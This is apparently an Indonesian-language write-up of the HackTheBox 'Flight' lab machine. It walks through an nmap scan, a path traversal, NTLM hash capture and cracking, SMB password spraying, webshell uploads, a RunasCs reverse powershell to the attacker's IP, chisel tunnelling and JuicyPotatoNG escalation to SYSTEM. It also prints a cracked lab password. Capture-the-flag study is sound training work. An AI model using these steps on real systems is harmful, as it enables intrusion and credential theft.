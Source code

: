 ```yaml
---
title: "HackTheBox - Flight Writeups"
date: 2023-01-09 18:00:00 +07:00
categories: [WriteUps]
tags: [ctf, hackthebox, pentest, writeups]
image: 
---
```


# HackTheBox Flight Writeups

Scanning dengan nmap. Berikut port terbuka sebagai berikut:
```
┌──(root㉿yupy)-[~/yp/hackthebox/Flight]
└─# nmap -sC -sV 10.10.11.187 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 17:43 PST
Nmap scan report for 10.10.11.187
Host is up (0.035s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-22 08:44:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-12-22T08:44:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.81 seconds

```

Scanning dengan Nikto untuk melihat vulnerability Assessment yang ada:
![image](https://media.discordapp.net/attachments/740245586095112242/1061907176899219497/image.png)

Fuzzing directory dengan berbagai tools Dirsearch dan Dirb:
![image](https://media.discordapp.net/attachments/740245586095112242/1061907396965969970/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061907509281050694/image.png)

Fuzzing subdomain flight.htb dengan wfuzz tools, disini kita menemukan subdomain school.
![image](https://media.discordapp.net/attachments/740245586095112242/1061907881328386048/image.png)

Kita juga menggunakan tools scanning Burp Suite, dari scan deep dari BurpSuite kami menemukan kerentanan tentang File Path Travesal yang ada pada parameter ```view:```. Disini bila menggunakan payload ```file:///c:/windows/win.ini``` yang telah kita encode urlnya. Kita bisa melihat version pada windows tersebut dengan payload ini.
![image](https://media.discordapp.net/attachments/740245586095112242/1061908290033950730/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908563062169600/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908581726830592/image.png)

Dari kita mencoba melihat file lokal di server, kita dapat mencoba RFI yang berpontial SSRF juga di server target, sehingga bila kita menginputkan url server kita akan mengautentikasi dan menunjukkan kepada kita hash ntlmv2 dari pengguna yang sedang berjalan, seperti di server yang merespons, disini kita menggunakan responder untuk mendapatkan responya:
![image](https://media.discordapp.net/attachments/740245586095112242/1061908805669105744/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061908924904767529/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061909236583497808/image.png)

Setelah mendapatkan hash ntmlv2 kita juga crack hash tersebut dengan tools ```John```, dan disini kita mendapatkan password:
![image](https://media.discordapp.net/attachments/740245586095112242/1061909440175030272/image.png)

Kita disini mencoba mencocokan password kredensial yang terhubung dengan smb server target tersebut, dan kita mendapatkanya bila password itu cocok dengan user ```svc_apache```
![image](https://media.discordapp.net/attachments/740245586095112242/1061909663475580978/image.png)

Kita melanjutkanya untuk melihat user lain yang ada di Smb server target. Disini kita melihat semua user yang ada pada Smb server target tersebut.
![image](https://media.discordapp.net/attachments/740245586095112242/1061909916119482378/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061909948692439090/image.png)

Setelah kami membuat file dengan user yang didapat tadi, dan disini kita mencoba mencocokan kredential lagi. Disini kita mendapatkan users dengan password yang cocok selain ```svc_apache``` yaitu ```S.Moon```.
![image](https://media.discordapp.net/attachments/740245586095112242/1061910433654652978/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061910747677999134/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061910851554127912/image.png)

```S.Moon``` menggunakannya, kita dapat mencari direktori seseorang yang memiliki izin.
![image](https://media.discordapp.net/attachments/740245586095112242/1061911187278807041/image.png)

Kita mencoba login dengan smbclient dan kita dapat masuk. Disini tidak ada file apapun namun kita mencoba memasukan payload yang saya dapatkan dari [hacktricks](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)
![image](https://media.discordapp.net/attachments/740245586095112242/1061911597070684251/image.png)

Disini kita membuat payload yang nantinya kita akan mendapatkan Hash lagi dari response backconnect:
![image](https://media.discordapp.net/attachments/740245586095112242/1061913339787214888/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061913514706468874/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061913655819640903/image.png)

Seperti biasa untuk crack hash ntmlv2 yang di dapat dari backconnect tadi, dan mendapatkanya passwordnya.
![image](https://media.discordapp.net/attachments/740245586095112242/1061913834203398154/image.png)

Setelah kita crack passwordnya mencoba melihat directory share dengan user ```C.Bum``` dan password ```Tikkycoll_431012284```.
![image](https://media.discordapp.net/attachments/740245586095112242/1061914069633859654/image.png)

Disini kita mencoba login dengan user dan password tadi, terdapat directory flight.htb dan school.flight.htb yang berarti directory ini adalah directory yang memuat halaman page tadi.
![image](https://media.discordapp.net/attachments/740245586095112242/1061914726629642261/image.png)

Setelah itu kita mencoba mengupload webshell [wwwolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) yang kita gunakan backconnect nantinya.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915087260102756/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061915170387005470/image.png)

Setelah berhasil kita mengupload netcat yang didapat dari github: [netcat](https://github.com/diegocr/netcat) yang kita akan upload ke dalam server. Berhasil terupload netcatnya kita backconnect an dengan netcat pc kita.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915537552183296/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061915560692174918/image.png)

Disini mencoba privileges escalation pada server yang menggunakan windows ini, dengan menggunakan [RunaCS](https://github.com/antonioCoco/RunasCs/releases/tag/v1.4) ini kita dapat menjalakan command powershell lebih detail lagi.
![image](https://media.discordapp.net/attachments/740245586095112242/1061915914670456842/image.png)

Dan kita sambungkan dengan netcat yang bila nanti kita buka akan menggunakan command powershell.
```
.\RunasCs.exe C.bum Tikkycoll_431012284 powershell -r 10.10.14.7:7333
```
![image](https://media.discordapp.net/attachments/740245586095112242/1061916347669434388/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061916374814969946/image.png)

Bagaimana cara privileges escalation dengan server ini? Kita akan menemukanya, setelah kita melihat lihat isi server ini.
![image](https://media.discordapp.net/attachments/740245586095112242/1061916681754128384/image.png)

Kita disini dapat melihat isi ```user.txt``` yang berada di user ```C.Bum``` tetapi kita tidak bisa melihat isi user administrator.
![image](https://media.discordapp.net/attachments/740245586095112242/1061916983865655316/image.png)

Setelah mencari lebih dalam kita menemukan bahwa kalau kita membuka netstat dengan command ```netstat -oat``` kita akan melihat port 8000 yang berarti port ini mendapatkan isi web yang mungkin menampilkan halaman page baru.
![image](https://media.discordapp.net/attachments/740245586095112242/1061917375475236894/image.png)

Kita disini menggunakan chisel untuk melihat yang ada pada port 8000 dengan cara menghubungkan port ini kedalam server kita. Dengan mengupload chisel yang saya dapatkan dari [chisel](https://github.com/jpillora/chisel) jalankan chisel server target dan server pc kita sendiri.
![image](https://media.discordapp.net/attachments/740245586095112242/1061917823154262087/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061917995175247882/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061918031158194206/image.png)

Disini bila kita membuka port 8000 dengan localhost akan memunculkan tampilan seperti gambar dibawah.
![image](https://media.discordapp.net/attachments/740245586095112242/1061919532517691412/image.png)

Mencari dimana letak source code halaman page ini, dan kita menemukanya letak source code port 8000 di directory ```C:\inetpub\development```
![image](https://media.discordapp.net/attachments/740245586095112242/1061919749308678234/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061919774847807488/image.png)

Selanjutnya kita mencoba upload shell [cmd](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) yang saya punyai.
![image](https://media.discordapp.net/attachments/740245586095112242/1061920219062345758/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061920412969205770/image.png)

Kita mencoba backconnect an lagi dengan netcat. Disini kami melakukan pencarian yang bisa untuk mendapatkan user Administrator secara langsung.
![image](https://media.discordapp.net/attachments/740245586095112242/1061920601549312080/image.png)

Dengan menambahkan command whoami ```/priv``` kita dapat melihat bahwa memungkinkan privileges escalation. [Referensi](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
![image](https://media.discordapp.net/attachments/740245586095112242/1061920971969282080/image.png)

Disini kita menggunakan [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) untuk menaikan user biasa ke user administrator. Dengan command dibawah kita bisa mendapatkan ```nt authority\system``` yang dapat melakukan eksekusi apapun yang terdapat di server.
![image](https://media.discordapp.net/attachments/740245586095112242/1061921580151742464/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061926134536753172/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1061921783680348201/image.png)
